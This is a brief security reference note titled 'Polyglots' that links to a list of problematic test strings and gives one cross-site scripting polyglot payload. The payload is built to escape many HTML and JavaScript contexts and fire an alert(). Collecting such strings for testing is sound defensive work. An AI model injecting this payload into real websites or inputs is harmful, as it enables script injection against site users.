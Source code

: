 ```yaml
---
title: "Polyglots"
date: 2022-05-04T13:03:15+02:00
---
```


# Polyglots
* https://github.com/minimaxir/big-list-of-naughty-strings
* jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
